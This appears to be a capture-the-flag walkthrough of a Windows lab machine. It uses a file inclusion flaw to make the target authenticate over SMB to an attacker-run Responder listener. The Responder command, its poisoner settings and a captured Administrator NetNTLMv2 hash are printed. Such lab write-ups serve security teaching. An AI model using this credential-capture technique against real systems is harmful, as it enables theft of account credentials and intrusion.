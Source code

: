 This might be vulnerable to file inclusion.

![](./attachments/Pasted%20image%2020220413133157.png)

It is. We can access the local DNS file of the server.

Since this is a window computer, we can trick it into initializing the SMB protocol by providing it with a random path to our local machine. During the initial SMB key exchange, we will be able to grab the NetNTLMv (hash) corresponding to a privileged account. We can utilize a tool called 'Responder' to set up an SMB server and grab what we need.

Initiating SMB connection from the host by injecting payload.

![](./attachments/Pasted%20image%2020220413140044.png)

Responder recieves the request.

```console
┌──(kali㉿kali)-[~/Downloads/Responder]
└─$ sudo python3 Responder.py -I tun0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.1.0

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

(...)

[+] Listening for events...                                                                                              

[SMB] NTLMv2-SSP Client   : ::ffff:10.129.13.133
[SMB] NTLMv2-SSP Username : RESPONDER\Administrator
[SMB] NTLMv2-SSP Hash     : Administrator::RESPONDER:0be9c5c6cf0e9a1f:315A0FA65B9B10A52D30154FF9
B30B03:010100000000000080AF8BA6064FD80155B6827C008240070000000002000800590049005500340001001E005
70049004E002D00320036004C004A00540035004400340055003700310004003400570049004E002D00320036004C004
A0054003500440034005500370031002E0059004900550034002E004C004F00430041004C00030014005900490055003
4002E004C004F00430041004C000500140059004900550034002E004C004F00430041004C000700080080AF8BA6064FD
8010600040002000000080030003000000000000000010000000020000082174BADF21708E22DEA49E1A9D4B9082DB16
9627E622A1FBE7ADAC17D264F0A0A001000000000000000000000000000000000000900200063006900660073002F003
```